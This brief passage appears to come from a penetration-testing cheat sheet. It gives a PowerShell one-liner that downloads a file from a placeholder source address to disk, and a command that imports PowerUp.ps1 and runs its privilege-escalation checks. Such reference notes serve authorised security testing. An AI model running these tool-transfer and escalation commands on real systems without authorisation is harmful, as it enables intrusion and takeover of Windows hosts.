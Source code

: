 ##### Download A File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

##### Execute PowerUp.ps1
```powershell
# Run and do AllChecks in one line.
PowerShell.exe Invoke-Command -ScriptBlock { "Import-Module .\PowerUp.ps1; Invoke-AllChecks"} 
```